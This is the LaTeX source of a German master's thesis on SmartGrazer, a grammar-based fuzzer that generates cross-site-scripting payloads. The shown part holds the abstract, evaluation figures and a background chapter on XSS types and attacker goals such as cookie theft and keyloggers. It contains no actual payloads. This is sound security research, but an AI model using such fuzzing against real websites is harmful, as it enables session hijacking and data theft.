\documentclass[a4paper,12pt]{scrreprt}

% Allgemeine Pakete
%\usepackage[utf8]{inputenc}
\usepackage[ngerman]{babel}
\usepackage[T1]{fontenc}
\usepackage[title,toc]{appendix}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{eurosym}
\usepackage{booktabs}
\usepackage{graphicx}
\usepackage[numbers]{natbib}
\usepackage[yyyymmdd]{datetime}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{placeins}
\usepackage[a4paper,
left=25mm,
top=40mm,
right=25mm,
bottom=35mm]{geometry}
\usepackage{lmodern}
\usepackage[nolist]{acronym}
%\usepackage[printonlyused]{acronym}
\usepackage{pdfpages}
\usepackage{fontspec}

\sloppy

\usepackage[nopostdot,nogroupskip]{glossaries}
\setlength{\glsdescwidth}{0.83\textwidth}

% Voreinstellungen z.B. schwarze Hyperlinks
\RequirePackage[unicode,pdfpagelabels=false, colorlinks=true, linkcolor=black, urlcolor=darkgray, citecolor=black]{hyperref}

% Zählervariablen
\setcounter{secnumdepth}{3}
\setcounter{tocdepth}{1}
\pagenumbering{arabic}

% Datum-Trennzeichen
\renewcommand{\dateseparator}{--}

\hyphenation{De-zi-mal-tren-nung}

\defaultfontfeatures{Mapping=tex-text,Scale=MatchLowercase}

\setmainfont{DejaVu Serif}

\lstset{
	basicstyle=\sffamily\small,
	captionpos=b,
	numbers=left,
	stepnumber=1,
	numberfirstline=true,
	numberstyle=\small,
	numbersep=8pt,
	frame = single,
	xleftmargin=15pt,
	linewidth=0.992\textwidth,
	breakindent=0em,
	breaklines=true,
	breakatwhitespace=true,
	showspaces=false,
	showstringspaces=false
}

\renewcommand\UrlFont{\sffamily\small\itshape}

% Keine Leerzeilen in der Listings- bzw. Figures-Liste zwischen den Kapiteln
\makeatletter
\def\@chapter[#1]#2{\ifnum \c@secnumdepth >\m@ne
	\refstepcounter{chapter}%
	\typeout{\@chapapp\space\thechapter.}%
	\addcontentsline{toc}{chapter}%
	{\protect\numberline{\thechapter}#1}%
	\else
	\addcontentsline{toc}{chapter}{#1}%
	\fi
	\chaptermark{#1}%
	\if@twocolumn
	\@topnewpage[\@makechapterhead{#2}]%
	\else
	\@makechapterhead{#2}%
	\@afterheading
	\fi}
\makeatother

% Mehr Abstand in der Listings- bzw. Figures-Liste zwischen Kapitel- und Titel
\makeatletter
\renewcommand*\l@figure{\@dottedtocline{1}{1em}{3.2em}}
\renewcommand*\l@lstlisting{\@dottedtocline{1}{1em}{3.2em}}
\makeatother

% Neues Kommando \source für Bildquellen
\newcommand*{\source}{% 
	\footnotesize 
}

\renewcommand*{\chapterheadstartvskip}{\vspace*{0cm}}
\renewcommand*{\chapterheadendvskip}{\vspace{0.7cm}}

\newcommand{\subsubsubsection}[1]{\paragraph{#1}\mbox{}\\}

% Footer & Header configuration
\input{contents/parts/headerfooter.tex}

% Titelseiteninformationen
\title{\begin{large} 
		- Masterthesis -
	\end{large} \\ SmartGrazer: Dynamische Testfallgenerierung für Cross-Site-Scripting-Schwachstellen}
\subtitle{Implementierung und Evaluation eines kontextabhängigen, grammatikbasierten Fuzzers}

\author{
	Alexander Borgardt\\
	\begin{small}
		MatNr.: 21981465
	\end{small}\\\\
	Friedrich-Alexander-Universität Erlangen-Nürnberg\\
	Cauerstraße 11\\
	91058 Erlangen, Deutschland\\
	alexander.borgardt@fau.de
}

\input{contents/parts/glossar.tex}
\makeglossaries

\begin{document}
	% Titelseite
	\maketitle
	\clearpage

	\pagenumbering{roman}


	% Inhaltsverzeichnis
	\tableofcontents
	\thispagestyle{empty}
	
	\clearpage
	\setcounter{page}{1}
	
	% Abtrittserklärung
	\addcontentsline{toc}{section}{Eidesstattliche Erklärung}
	% Pseudo chapter
\chapter*{\ }


\vspace*{\fill}


% Header
\begin{Large}
	\textbf{Eidesstattliche Erklärung / Statutory Declaration}
\end{Large}
\vspace{1.5em}


\noindent\hrule

\vspace{0.5em}

% German
Hiermit versichere ich eidesstattlich, dass die vorliegende Arbeit von mir
selbständig, ohne Hilfe Dritter und ausschließlich unter Verwendung der
angegebenen Quellen angefertigt wurde. Alle Stellen, die wörtlich oder
sinngemäß aus den Quellen entnommen sind, habe ich als solche kennt\-lich
gemacht. Die Arbeit wurde bisher in gleicher oder ähnlicher Form keiner anderen
Prüfungsbehörde vorgelegt. 
\vspace{1.5em}


% English
I hereby declare formally that I have developed and written the enclosed thesis
entirely by myself and have not used sources or means without declaration in
the text. Any thoughts or quotations which were inferred from the sources are
marked as such. This thesis was not submitted in the same or a substantially
similar version to any other authority to achieve an academic grading. 

\vspace{0.5em}
\noindent\hrule

\vspace{2em}

% remove the following text if it doesn't seem appropriate

Der Friedrich-Alexander-Universität, vertreten durch den Lehrstuhl
für Informatik 1, wird für Zwecke der Forschung und Lehre ein
einfaches, kostenloses, zeitlich und örtlich unbeschränktes
Nutzungsrecht an den Arbeitsergebnissen der Arbeit einschließlich
etwaiger Schutz- und Urheberrechte eingeräumt.


\vspace{2em}

% Sign
Erlangen, \today
\begin{flushright}
	\underline{\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ 
		\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ 
	} \\
	\small{Alexander Borgardt}
\end{flushright}

	\clearpage
	
	% Danksagungen
	\addcontentsline{toc}{section}{Danksagung}
	\chapter*{Danksagung}

Besonderer Dank gilt meiner Familie und meinem Arbeitgeber SDZeCOM GmbH \& Co. KG , die mich in meiner Entscheidung unterstützten, den sicheren Arbeitsplatz aufzugeben und den Master-Abschluss anzugehen. Des Weiteren möchte ich mich bei den Mitarbeitern der Friedrich-Alexander-Universität bedanken, die täglich Ihr Wissen an Studenten wie mich weitergeben.

Im Hinblick auf diese Arbeit gilt mein besonderer Dank Benjamin Stritter, der mir bei Fragen jederzeit zur Seite stand, viel Geduld erwies und Dinge auch gerne ein zweites Mal erklärte. Weiterhin danke ich Christian Wagner und Ralf Dippold, die sich Zeit nahmen und mir Feedback, bezüglich Richtigkeit, Form und Verständnis der Arbeit, gaben.

Zu guter Letzt danke ich meiner Lebensgefährtin Melanie Fuchs, die mich immer gerne mit Rat und Tat unterstützte, um dieser Arbeit den letzten Feinschliff zu verpassen. % (✔)
	\clearpage
		
	% Abstract - en
	\addcontentsline{toc}{section}{Abstract}
	\chapter*{Abstract}

The aim of this master thesis was the implementation and evaluation of a context dependent, grammatical-based fuzzer for XSS attacks. The idea is to develop and evaluate a contextual generator which generates payloads depending on the websites answer. The basic data will be defined by construction rules, which will be filled during each generation. Elements will consist of keywords, strings and basic signs, which are used in JavaScript and HTML. The used signs are chosen during generation by calculating their potential.

The built-in payload generator from SmartGrazer has been named ``Smarty'' and the software was realized with Python 3 and published as an open source project on GitHub\footnote{\url{https://github.com/b1tray3r/SmartGrazer}}. Subsequently, the developed software was tested against several web applications with XSS vulnerabilities and the results were compared to two alternative approaches: first, an XSS grammar was developed and prepared to be compatible with Dharma\footnote{\url{https://github.com/MozillaSecurity/dharma}}, a context free grammar generator, and second, burp suite scanner\footnote{\url{https://portswigger.net/burp}}, a proprietary pentest-solution, was used to test fixed predefined lists of XSS payloads.

The evaluation initially included a list of simple XSS filters that protect against individual
elements of XSS attacks. These were combined in a second step to test the generated
payloads. In the final step, bWAPP, a pentest web application, was used to test the generated payloads.

The following results were obtained after 25 test runs with random combinations of the simple XSS filters:

\begin{enumerate}
	\item The reliability of SmartGrazer and both used generators (Dharma \& Smarty) was about 99.86\%. In comparison, Burp Suite was able to achieve a reliability of about 88.57\%.
	
	\item By using the Dharma generator less generation rounds were needed to find a reflected payload, compared to the Smarty generator.
\end{enumerate}

In 25 test runs against the bWAPP application, SmartGrazer achieved a higher average
reliability (Smarty: 93.33\%, Dharma: 77.22\%) than the Burp Suite (66.67\%).

\subsection*{Executable payload generation}

In addition, an evaluation was made to test how efficient the generated payloads of Smarty, Dharma and the Burp Suite are. For this purpose, ten generation rounds were carried out to check whether the payload was executed when loading the website in the browser.

The results against the combined filters Smarty managed to achieve an average reliability of 66.07\%. Burp Suite took second place, by achieving a 52.14\% reliability. The Dharma generator only managed to achieve a reliability of 27.14\%.

As a result, none of the used generators were able to create a working payload to the
bWAPP application, when configured to the highest security level. % (✔)
	\clearpage
				
	% Verzeichnis aller Bilder
	\addcontentsline{toc}{section}{Abbildungsverzeichnis}
	\listoffigures
	\clearpage
	
	% Verzeichnis aller Quellcodes
	\addcontentsline{toc}{section}{Quelltextauszüge}
	\renewcommand{\lstlistlistingname}{Quelltextauszüge}
	\renewcommand{\lstlistingname}{Quelltext}
	\lstlistoflistings
	\clearpage
	
	% Verzeichnis aller Tabellen
	%\addcontentsline{toc}{section}{Tables}
	%\listoftables
	%\clearpage
	
	% Glossar
	\addcontentsline{toc}{section}{Glossar}
	\printglossary[type=main,style=super,title=Glossar,nonumberlist]
	\newglossaryentry{tracken}{name=tracken, description={Verfolgen/Nachverfolgen von Benutzern oder Daten im Cyberspace.}}

\newglossaryentry{payload}{name=Payload, description={Ein Stück Quellcode, bestehend aus HTML- und JavaScript-Code, welches beim Verarbeiten vom Browser auf der Seite ausgeführt werden soll.}}

\newglossaryentry{XSS}{name=XSS, description={Abkürzung für \textbf{\acl{XSS}}.\newline Die Abkürzung \acs{XSS} wird verwendet um Missverständnisse mit der Auszeichnungssprache \ac{CSS} zu vermeiden.}}

\newglossaryentry{Crawler}{name=Crawler, description={Ein (Web-)Crawler ist eine Softwareanwendung, die systematisch alle Links einer Webseite besucht und herunterläd bzw. auswertet.}}

\newglossaryentry{Backtick}{name=Backtick, description={Rückwärts geneigtes Hochkomma.}}

\newglossaryentry{Sanitizer}{name=Sanitizer, description={Die Daten werden zwischen Eingabe und Verarbeitung untersucht und von verbotenen Inhalten ``gereinigt''.}}

\newglossaryentry{Eventhandler}{name={Eventhandler},description={Eventhandler sind, im Kontext von HTML, Einstiegspunkte um JavaScript-Code auszuführen.}}

\newglossaryentry{Keylogger}{name=Keylogger, description={Ein Keylogger ist eine Softwareanwendung, die sämtliche Anschläge der Tastatur aufzeichnet und (meistens) an eine dritte Person übermittelt.}}

\newglossaryentry{GET}{name=GET, description={Eine Methode des \ac{HTTP} bzw. \ac{HTTPS}, um Daten vom Browser an den Webserver zu senden. GET-Parameter werden beim Übermitteln an die \ac{URL} angehängt und können somit direkt übertragen werden.}}

\newglossaryentry{POST}{name=POST, description={Eine Methode des \ac{HTTP} bzw. \ac{HTTPS}, um Daten vom Browser an den Webserver zu senden. POST-Parameter werden als versteckte Daten übertragen und können nicht einfach an die URL angehängt werden.}}

\newglossaryentry{Cookies}{name=Cookies, description={Eine vom Webbrowser angelegte Datei, in der beispielsweise Anmeldeinformationen gespeichert werden, sodass sich der Benutzer bei einem erneuten Besuch der Webseite nicht erneut anmelden muss.}}

\newglossaryentry{Phishing}{name=Phishing, description={Eine Betrugsmasche, bei der Benutzer auf gefälschte Webseiten gelockt werden, um dort Anmeldeinformationen abzugreifen.}}

\newglossaryentry{JSON}{name=JSON, description={ Abkürzung für \textbf{\acl{JSON}}.\newline Das JSON-Format ist ein einfach zu lesendes und kompaktes Datenformat. Der Vorteil von JSON-Daten ist, dass diese oft direkt als Objekte interpretiert und verwendet werden können.}}

\newglossaryentry{AJAX}{name=AJAX, description={ Abkürzung für \textbf{\acl{AJAX}}.\newline Eine Technik, bei der unter Verwendung von JavaScript neue Serveranfragen auch nach dem vollständigen Laden der Webseite getätigt werden können, ohne die komplette Webseite neu laden zu müssen.}}

\newglossaryentry{Adapter}{name=Adapter, description={Das Adapter-Entwurfsmuster übersetzt die Schnittstelle eines Programms, sodass zwei Anwendungen mit einander kommunizieren können.}}

\newglossaryentry{BNF}{name=BNF, description={Abkürzung für \textbf{\acl{BNF}}.\newline Eine Notations- oder Darstellungsform für kontextfreie Grammatiken. In der \acl{BNF} können auch höhere Programmiersprachen, wie z.B. Java oder Pascal, dargestellt werden.}}

	\clearpage	
			
	% Abkürzungsverzeichnis
	%	\newpage
	%	\addcontentsline{toc}{section}{Abkürzungsverzeichnis}
	%	\chapter*{Abkürzungsverzeichnis}
	%\chapter*{Abkürzungsverzeichnis}
\begin{acronym}[slmtA]
	\acro{AJAX}{Asynchronous JavaScript and XML}
		
	\acro{BNF}{Backus Naur Form}
	
	\acro{CSS}{Cascading Style Sheets}
	
	\acro{CLI}{Command Line Interface}
		
	\acro{DOS}{Denial of Service}
	\acro{DOM}{Document Object Model}
		
	\acro{ESR}{Extendet Service Release}
		
	\acro{HTML}{Hyper Text Markup Language}
	
	\acro{HTTP}{Hypertext Transfer Protocol}
	
	\acro{HTTPS}{Hypertext Transfer Protocol Secure}
		
	\acro{IDL}{Interface Definition Language}
		
	\acro{IDE}{Integrated Development Environment}
		
	\acro{JRE}{Java Runtime Environment}
	\acro{JSON}{JavaScript Object Notation}
		
	\acro{OWASP}{Open Web Application Security Project}
		
	\acro{SSO}{Single Sign-on}
		
	\acro{SUT}{System Under Test}
		
	\acro{TLD}{Top Level Domain}
	\acroplural{TLD}[TLDs]{Top Level Domains}
	
	\acro{TOC}{Terms Of Contract}
	
	\acro{UML}{Unified Modeling Language}
	
	\acro{URL}{Uniform Resource Locator}
	\acroplural{URL}[URLs]{Uniform Resource Locators}
		
	\acro{WAF}{Web Application Firewall}
	\acroplural{WAF}[WAFs]{Web Application Firewalls}
	
	\acro{WYSIWYG}{What You See Is What You Get}
		 
	\acro{XSS}{Cross-Site-Scripting}
\end{acronym}
	
	\clearpage
	\pagenumbering{arabic}
	
	% Seiten einbinden
	% Hier den Inhalt einbinden:

\chapter{Einleitung}\label{Einleitung}

\section{Die Nutzung des Internets}

Laut einer Studie von We Are Social Singapore aus dem Jahr 2016 nutzen ca 46\% (3.419 Milliarden Menschen) der Weltbevölkerung das Internet \cite{WeAreSocial2016}. Im Vergleich zum Vorjahr entspricht dies einem Zuwachs von zehn Prozent. In Europa beträgt der Anteil der Internetnutzer 73\% (616 Millionen Menschen) der Gesamtbevölkerung. Weiterhin sind aktuell ca. 189 Millionen \acp{TLD} im Internet registriert \cite{RegistrarStats2017}. Mit der Einführung von Web 2.0 und der vereinfachten Weise, Inhalte im Internet bereit zu stellen, wächst intuitiv auch die Gefahr, dass die Zahl von Webseiten mit Sicherheitslücken zunimmt.

\section{Motivation}
Moderne Webanwendungen sind in der Regel hochgradig dynamisch und interaktiv. Jedoch kann durch bestimmte Benutzereingaben das Verhalten der Webanwendung beeinträchtigt werden. Solche Eingaben können dazu genutzt werden, die Datenbank der Webanwendung zu manipulieren (SQL-Injection) oder schädlichen Quellcode auf den Computern der Besucher der Seite auszuführen (\gls{XSS}).

Laut einer statistischen Analyse von WhiteHat Security \cite{WhiteHatSecurity2016} machen \acl{XSS} Angriffe rund die Hälfte der Angriffe auf Webseiten aus. Weiterhin ist die Anzahl von \acl{XSS}-Angriffen seit 2012 stetig gestiegen. Daher wird es immer wichtiger, diesem Trend entgegen zu wirken und Webseiten ausreichend gegen solche Angriffe zu schützen. Insbesondere müssen sicherheitsrelevante Eingabefelder identifiziert und auf Schwachstellen untersucht werden.

Getestet werden können solche kritischen Eingabefelder oft nur bedingt, da Firmen aus Zeit- oder Budgetgründen auf Software von anderen Quellen zurückgreifen. Dies erschwert das Testen dahingehend, dass der Quellcode oft nicht verfügbar ist und deswegen auf sogenanntes Black-Box-Testing zurückgegriffen werden muss. Auch wenn der Quellcode zugänglich ist, wird oft nur ergänzend mittels Source-Code-Audit getestet, da dies sehr aufwändig ist.

Diese Vorgehensweise entspricht im Normalfall auch den Herausforderungen, denen sich Angreifer annehmen müssen. Aus diesem Grund pflegen Sicherheitsexperten Listen mit Angriffssignaturen, um häufige Fehlerquellen zu identifizieren.

Gängige Softwarelösungen bieten Listen mit geläufigen Angriffssignaturen, die gegen Webanwendungen getestet werden können. Alternativ pflegt die Organisation \ac{OWASP} seit September 2012 eine frei zugängliche Liste mit möglichen Angriffen, um \ac{XSS}-Filter zu umgehen.
Ein Nachteil solcher statischer Listen ist, dass Entwickler von Webanwendungen oder \acp{WAF} Gegenmaßnahmen gegen genau diese Fälle programmieren können.

Des Weiteren können Scanner mit vordefinierten Listen nicht auf gegebene Spezifika der Webanwendung reagieren. Ein weiterer Nachteil der Abarbeitung von umfangreichen statischen Listen ist der Aufwand, der entsteht, wenn alle Angriffssignaturen der Liste komplett abgearbeitet werden sollen.

\section{Aufgabendefinition}

Diese Masterthesis besteht aus insgesamt drei Teilaufgaben:
\begin{itemize}
	\item Im ersten Schritt wird ein Algorithmus entwickelt und implementiert, welcher unter Verwendung von Fuzzing Angriffssignaturen generiert. Hierbei wird ein gezieltes, “intelligentes” Fuzzing angewendet, das auf Konstruktionsvorschriften und Mutationen von Testfällen basiert. Die Implementierung dieses Algorithmus soll parametrisiert steuerbar sein, damit gegebenenfalls bestimmte Muster der Angriffssignatur mit einer höheren Wahrscheinlichkeit generiert werden können.
	\item Weiterhin sollen Antworten von Webanwendungen ver- und bewertet werden, sodass potenziell vielversprechende Angriffssingnaturmuster bei der Weiterentwicklung für den jeweiligen Parameter bevorzugt wiederverwendet werden können.
	\item Im letzten Schritt und nach der Implementierung wird die Anwendung anderen Lösungen gegenübergestellt und Analysen für verschiedene Webapplikationen durchgeführt.
\end{itemize}

\paragraph{Anmerkung:}
Sämtliche Artefakte, wie zum Beispiel Quelltext, Kommentare und Diagramme, werden in englischer Sprache verfasst, da diese nach Abschluss der Masterthesis als Open Source Projekt veröffentlicht werden. Die in dieser Arbeit vorgestellten Quelltext-Passagen und Diagramme werden dementsprechend ausreichend beschrieben.

\subsection{Grenzen}

Der primäre Fokus dieser Masterthesis liegt auf reflektiertem \acl{XSS} (XSS-1). Die Erweiterung auf persistentes \acl{XSS} (XSS-2) kann ohne weitere Anpassungen des hier entwickelten Algorithmus vorgenommen werden. Die Implementierung des Algorithmus wird zunächst als Kommandozeilenprogramm ohne Benutzeroberfläche realisiert.

\subsection{Auswertung}

Getestet wird der entwickelte Algorithmus im direkten Vergleich zu bereits existierenden Schwachstellen-Scannern. Jede Anwendung wird anhand mehrerer Testdurchläufe mit verschiedenen Webanwendungen auf Effektivität und Effizienz bewertet. % (✔
\newpage
\chapter{Hintergrund}\label{Hintergrund}

\section{Web 2.0}

Der Begriff ''Web 2.0`` beschreibt eine veränderte Nutzung des Internets \cite{Lackes}. Während in der Vergangenheit überwiegend statische Inhalte in Form von Produktinformationen veröffentlicht wurden, neigt der Trend dazu, dass der Benutzer sich einbringt und selbst Inhalte einpflegt. Außerdem wird es Benutzern immer mehr erleichtert, ganze Webseiten innerhalb von Minuten zu erstellen und der Öffentlichkeit zur Verfügung zu stellen. Dies birgt jedoch die Gefahr, dass sich viele Autoren einfach nicht über die technischen Gefahren und Sicherheitsrisiken bewusst sind.

\paragraph{Open Source Software:}
Laut eines Beitrags des Infosecurity Magazines \cite{Seals2016} sind 87\% der Schwachstellen entweder \acl{XSS}- (67\%) oder SQL-Injections (20\%). Hierbei wurden ungefähr 400 Open Source Webapplikationen untersucht. Der Vorteil von Open Source Anwendungen gegenüber Closed Source Anwendungen liegt in der Möglichkeit dass der Quellcode von einer breiten Masse eingesehen und getestet werden kann.

\paragraph{\ac{OWASP}:}
Seit 2001 stellt diese Stiftung eine frei zugängliche Sammlung von sicherheitsbezogenen Informationen zur Verfügung. Diese sollen Entwicklern und Unternehmen helfen vertrauenswürdige und sichere Applikationen zu entwickeln.

Neben vielen Ratschlägen, wie eine Webseite gegen XSS-Angriffe abgesichert werden kann, pflegen die Mitglieder der OWASP eine Liste mit bekannten XSS- Payloads, um XSS-Filter zu umgehen \cite{OWASP2012}. Diese dient in dieser Arbeit als Vorlage für die entwickelten Angriffsmuster.

\section{Testen von Web-Anwendungen}

Beim Testen von Software unterscheidet man grundlegend zwischen White-Box- und Black-Box-Testing. Die Vorgehe n unterscheiden sich dahingehend, dass beim White-Box-Testing der Quelltext vorhanden ist und so Programmpfade gezielt getestet werden können. Hierdurch können fehlerhafte Komponenten des Programms gefunden werden.

Black-Box-Testing betrachtet die Software als abgeschlossenes System, von dem nur die öffentlichen Schnittstellen sichtbar sind. Bei diesem Testverfahren werden beispielsweise Grenzwerte als Eingabe gewählt, um fehlerhaftes Verhalten des Programms aufzudecken. Daher wird Black-Box-Testing verwendet, um die Anwendung auf Vollständigkeit gegenüber der Software-Spezifikation zu testen.

Das Testen von dynamischen Webseiten erfordert eine Mischung aus beiden Vorgehensweisen. Zum Einen kann der enthaltene JavaScript- bzw. HTML-Quelltext eingesehen werden, wodurch die dynamischen Programmabläufe im Webbrowser offen liegen. Zum Anderen ist die serverseitige Generierung des JavaScript- bzw. HTML-Quelltextes nicht verfügbar.

XSS-Angriffe nutzen die Möglichkeit, JavaScript-Code in fremde Webseiten einzubetten und diesen vom Webbrowser ausführen zu lassen. Sobald es dem Angreifer gelungen ist, Schadcode einzuschleusen, kann dieser versuchen, sensible Daten von Nutzern der Seite zu stehlen. Ein beliebtes Ziel solcher Angriffe sind HTTP-Cookies. Diese enthalten oft Informationen über Session-Daten der benutzten Webseite. 

Um Webseiten gegen XSS-Angriffe abzusichern, müssen Benutzereingaben vor der Verarbeitung auf solchen ``Schadcode'' geprüft werden.

Die Prüfung kann entweder per Hand oder mittels einer professionellen \ac{WAF} ausgeführt werden. Die Verwendung einer \ac{WAF} ist jedoch nicht immer die sicherere Wahl. \ac{WAF} kennen die Applikationslogik nicht und die \ac{WAF}-Datenbanken müssen auf dem aktuellsten Stand gehalten werden, um eine möglichst hohe Sicherheit gewährleisten zu können. Dem gegenübergestellt steht das immanente Risiko der Unvollständigkeit bei selbst programmierten Überprüfungen. Weitere Sicherheitslücken und Risiken können im Zuge der Weiterentwicklung der JavaScript-Sprache auftreten, die bis zu ihrer Fehlerbehebung neues Angriffspotential bieten.

%Hierbei ist die Verwendung einer \acs{WAF} nicht immer die sicherere Wahl, da dieser die Applikationslogik nicht bekannt ist und die Datenbank der \acs{WAF} aktualisiert werden muss. Dem gegenübergestellt ist die Gefahr bei selbst programmierten Überprüfungen ist die Unvollständigkeit. Auch das Weiterentwickeln der JavaScript-Sprache kann eventuelle Fehler beinhalten, welche neue Angriffe bis zur Fehlerbehebung ermöglichen.

Das Finden neuer Schwachstellen ist per Hand oft sehr arbeits- und zeitaufwändig. Daher wird versucht, mittels automatisierter Testfall-Generierung den Findungsprozess zu vereinfachen und zu beschleunigen. In der Praxis wird eine Webseite auf die gängigsten Angriffe getestet. Dies geht in der Regel schneller und deckt die gängigen Fehlerquellen hinreichend ab.

Alternativ kann die Webanwendung durch Fuzzing, bei dem die Software mittels Zufallszahlen auf unerwartetes Verhalten geprüft wird, getestet werden. Solch unerwünschtes Verhalten ist beispielsweise ein Softwareabsturz oder ein \ac{DOS}.

In Verbindung mit Fuzzing lassen sich bei XSS-Testing Konstruktionsgrammatiken einsetzten. Eine Konstruktionsgrammatik beschreibt die technische Zusammensetzung einer Sprache und die Möglichkeit, Elemente daraus zu erzeugen. Im Fall von XSS-Angriffen können durch eine Konstruktionsgrammatik automatisiert Testfälle für Webanwendungen generiert werden.  % (✔
\section{\acf{XSS}}\label{sssec:XSSDefinition}

Der Quellcode einer Webseite besteht meistens aus drei Komponenten. Die Auszeichnungssprachen HTML und CSS sind dabei für die Struktur und das Aussehen der gelieferten Informationen zuständig. Der Webbrowser interpretiert die HTML-Elemente und erstellt darauf aufbauend das sogenannte \ac{DOM}. JavaScript, als dritte Komponente, kann zum Einen den Inhalt des DOM weiter bearbeiten und zum Anderen durch sogenannte Events weiteren Quellcode ausführen.

\subsection{Ziele von \ac{XSS}-Angriffen}
		Im wesentlichen werden XSS-Angriffe durchgeführt, um an sensible Daten des Opfers zu gelangen. Drei beispielhafte Ziele des Angreifers sind Diebstahl von \gls{Cookies}, Installieren eines \gls{Keylogger}s oder \gls{Phishing}.

		\begin{description}
			\item[Cookie-Diebstahl]{Durch den Diebstahl von Cookies kann sich der Angreifer als sein Opfer ausgeben, um sich Zugang zu der gewünschten Webseite zu verschaffen.}
			\item[Keylogger]{Der Angreifer kann einen Keylogger auf der Webseite einschleusen, um Benutzereingaben an den Server des Angreifers weiterzuleiten.}
			\item[Phishing]{Phishing beschreibt die Manipulation von Links oder Webseiten, sodass das Opfer auf eine gefälschte Webseite weitergeleitet wird. Gibt das Opfer dort seine Benutzerdaten ein, werden diese an den Angreifer geschickt.}
		\end{description}


\subsection{\ac{XSS}-Typen und Definitionen}
		Je nach Quelle des Angriffs wird \acl{XSS} in drei Arten unterschieden: 

		\begin{description}
			\item[Typ 0 / \acs{DOM}-basiertes \ac{XSS}] \ac{DOM}-basiertes XSS spielt sich komplett im Browser des Benutzers ab. Hierbei werden die Benutzereingaben nicht an die Webseite gesendet, sondern mittels JavaScript dazu verwendet, um das bestehende HTML-Dokument zu manipulieren.
			\item[Typ 1 / reflektiertes \ac{XSS}] Werden Benutzereingaben direkt in Form von Fehlermeldungen, Suchanfragen oder innerhalb der Webseite zurückgeliefert, kann reflektiertes \ac{XSS} auftreten.
			\item[Typ 2 / persistentes \ac{XSS}] Im Allgemeinen tritt persistentes \ac{XSS} auf, wenn der Payload auf dem angegriffenen Server, zum Beispiel in einer Datenbank, gespeichert wird. Durch Aufrufen der Seite zu einem späteren Zeitpunkt wird der Angriff geladen und ausgeführt.
		\end{description}
		
		In Abbildung \ref{fig:flowchartXSSType1} ist der Ablauf eines reflektierenden \ac{XSS}-Angriffs abgebildet, in dem der  Angreifer zunächst eine \ac{URL} mit bösartigen JavaScript-Quellcode erstellt. Diese \ac{URL} lässt der Angreifer vom Opfer aufrufen, sodass die Attacke von der Webseite verarbeitet und an den Browser vom Opfer ``reflektiert'' wird. Hierdurch wird der \ac{XSS}-Angriff beim Opfer ausgeführt.
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/FlowchartXSSType1}
			\caption{Ablaufdiagramm: Typ 1 XSS}
			\label{fig:flowchartXSSType1}
		\end{figure}
	
\FloatBarrier
		
		Im Gegensatz dazu ist in der Abbildung \ref{fig:flowchartXSSType2} exemplarisch der Ablauf eines persistenten \ac{XSS}-Angriffs (Typ 2) abgebildet. Hier gelingt es dem Angreifer, schädlichen JavaScript-Code in die Datenbank einer Webseite zu speichern. Dieser schädliche Code wird dann beim Laden der Webseite ausgeführt. Beispiele hierfür können Foren und Kommentarfunktionen sein. Das Opfer wird beim nächsten Aufruf der Seite unabsichtlich das Laden des bösartigen Quellcodes und somit die \ac{XSS}-Attacke auf dem Browser starten.
		
		\begin{figure}[htbp] 
			\centering
			
\includegraphics[width=\textwidth]{contents/images/FlowchartXSSType2}
			\caption{Ablaufdiagramm: Typ-2 XSS}
			\label{fig:flowchartXSSType2}
		\end{figure}
		
\FloatBarrier
			Seit Mitte 2012 hat sich in der Praxis eine neue Kategorisierung eingebürgert, da die bisherige Kategorisierung in Typ 0, Typ 1 und Typ 2 häufig für Verwirrung gesorgt hat. Grund hierfür ist, dass auch persistente und reflektierte \ac{XSS} außerhalb des \ac{DOM}-Kontextes auftreten können \cite{Wichers2017}.
		
%		Seit Mitte 2012 werden \ac{XSS}-Angriffe in zwei Kategorien unterteilt, um Verwirrung zu vermeiden, da auch Fälle von persistenten/reflektierenden nicht-DOM-\ac{XSS} auftreten können \cite{Wichers2017}. 
		
		\begin{description}
			\item [Server \ac{XSS}] Die gesamte Antwort (inklusive des Payloads) wird vom Server generiert und an den Browser gesendet. Dabei spielt es keine Rolle, ob der Payload aus der Datenbank oder einem Request stammt. Laut dieser Definition fallen die Beispiele \ref{fig:flowchartXSSType1} und \ref{fig:flowchartXSSType2} in die Server \ac{XSS} Klassifizierung, da bei beiden Angriffen der Payload im \ac{HTML}-Code an den Browser des Opfers geschickt wird.
			
			\item [Client \ac{XSS}] Der Angriff erfolgt ausschließlich im Browser des Opfers, das heißt, dass DOM ist bereits vom Server generiert und es findet kein weiterer Request mehr statt. 
			Auslöser des Payloads ist ein JavaScript-Methodenaufruf, welcher den Payload lädt und ausführt. Hier kann der Payload aus einem \gls{AJAX}-Aufruf oder dem \ac{DOM} stammen. 
		\end{description}

\subsection{Payloads}

\subsubsection{Aufbau eines Payloads}
